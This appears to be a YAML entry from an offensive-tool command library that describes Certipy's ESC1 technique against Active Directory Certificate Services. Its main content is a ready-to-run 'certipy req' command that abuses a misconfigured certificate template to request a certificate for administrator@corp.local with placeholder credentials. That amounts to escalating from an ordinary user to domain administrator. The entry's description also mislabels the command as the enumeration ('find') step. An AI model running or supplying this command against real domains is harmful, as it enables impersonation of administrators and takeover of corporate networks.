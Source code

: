 ```yaml
---
description: |
  Certipy is an offensive tool for enumerating and abusing Active Directory Certificate Services (AD CS). The find command is useful for enumerating AD CS certificate templates, certificate authorities and other configurations.

  Command Reference:
  ```
  Username: john@corp.local

  Password: Passw0rd

  CertificateAuthority: corp-DC-CA

  Target CA Server: ca.corp.local

  Arbitrary UPN: administrator@corp.local

  DC Server: dc.corp.local
  ```
command: |
  certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC1-Test -upn administrator@corp.local -dns dc.corp.local
code: |
    ESC1 is when a certificate template permits Client Authentication and allows the enrollee to supply an arbitrary Subject Alternative Name (SAN).

    For ESC1, we can request a certificate based on the vulnerable certificate template 
    and specify an arbitrary UPN or DNS SAN with the `-upn` and `-dns` parameter, respectively.
items:
  - Username
  - Password
  - CA
  - CA Server
services:
  - ADCS
  - LDAP
OS:
  - Windows
  - Linux
attack_types:
  - Exploitation
references:
  - https://github.com/ly4k/Certipy
---
```


